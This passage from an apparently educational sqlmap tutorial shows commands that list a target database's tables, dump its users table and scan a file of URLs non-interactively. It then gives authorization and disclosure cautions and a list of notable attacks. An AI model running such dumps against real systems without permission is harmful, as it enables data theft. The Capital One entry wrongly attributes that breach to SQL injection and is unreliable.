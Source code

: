 ```bash
sqlmap -u "http://example.com/login.php?user=admin" -D users_db --tables
```
- Extract data from the users table:

```bash
sqlmap -u "http://example.com/login.php?user=admin" -D users_db -T users --dump
```

3) Scenario 3: Using SQLmap with a List of URLs

If you have multiple URLs to test, you can use a file containing these URLs:

```bash
sqlmap -m urls.txt --batch
```
The --batch option allows SQLmap to run in non-interactive mode, automatically selecting default options for prompts.

### Cyber Cautions
While SQLmap is a powerful tool for identifying and exploiting SQL injection vulnerabilities, ethical considerations and legal boundaries must be observed:

1) **Authorization:**

Always ensure you have explicit permission from the owner of the web application before conducting any security testing. Unauthorized testing is illegal and unethical.

2) **Responsible Disclosure:**

If you discover a vulnerability, report it responsibly to the affected organization. Provide them with sufficient information to understand and fix the issue.

3) **Minimize Impact:**

Conduct tests in a controlled environment to minimize the risk of disrupting the target application. Avoid using destructive payloads or exploiting vulnerabilities beyond what is necessary to demonstrate the issue.

4) **Stay Informed:**

Stay updated on the latest security practices and legal regulations regarding penetration testing and vulnerability assessment.

### Recent and Major Attacks on SQL Databases and SQL Injections
SQL injection attacks have remained a significant threat to database security, often leading to data breaches, data loss, and unauthorized access. Here are some notable recent and major SQL injection attacks:

1. **Capital One Data Breach (2019)**

In 2019, Capital One, one of the largest financial institutions in the United States, suffered a significant data breach due to a misconfigured web application firewall (WAF). The breach resulted in the exposure of personal information of over 100 million customers. The attacker exploited a vulnerability that allowed them to execute a server-side request forgery (SSRF) attack, which ultimately led to the exploitation of SQL injection vulnerabilities.
